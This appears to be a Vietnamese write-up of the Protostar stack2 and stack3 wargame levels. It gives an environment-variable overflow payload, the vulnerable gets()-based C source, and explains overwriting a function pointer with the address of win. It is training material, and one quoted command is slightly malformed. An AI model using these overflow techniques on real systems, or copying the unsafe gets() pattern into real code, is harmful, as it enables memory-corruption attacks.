 Đầu tiên sẽ tạo một environment variable có tên là GREENIE nằm trong cùng đường dẫn với sourcecó gí trị như sau:
```
export GREENIE=`python -c 'print( "A"*68+ "\x0a\x0d\x0a\x0d")
```
Để kiểm tra xem biến GREENIE đã nhận được giá trị mình gán vào hay chưa thì chúng ta có thể dùng câu lệnh sau: 

```
echo $GREENIE
```

Vào sau đó chúng ta chỉ cần chạy ./stack2 thôi !


```
you have correctly modified the variable
```
## Stack 3

LevelUp++!  Lên level này rồi thì độ khó cũng sẽ tăng theo thôi :3 
Level này sẽ giúp chúng ta hình dung về flow hoạt động của chương trình !

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
```
Dọc qua code C thì thấy bài yêu cầu chúng ta nhảy sang hàm *win* và in ra dòng *code flow successfully changed*
Về cơ chế thì chúng ta sẽ thay đổi flow hoạt động của chương trình, thay vì để chương trình nhập buffer rồi in ra dòng *calling ...* rồi kết thúc thì chúng ta phải nhảy đến hàm *win*, điểm lưu ý tiếp theo đó là *volatile int (*fp)()* đây là 1 con trỏ hàm. Có nghĩa là chúng ta sẽ nhảy đến địa chỉ mà con trỏ này trỏ tới!
Có nghĩa là chỉ cần đè lên pointer giá trị là địa chỉ của hàm win là được!
dùng gdb để tìm ra địa chỉ của hàm *win= 0x4005b6*.
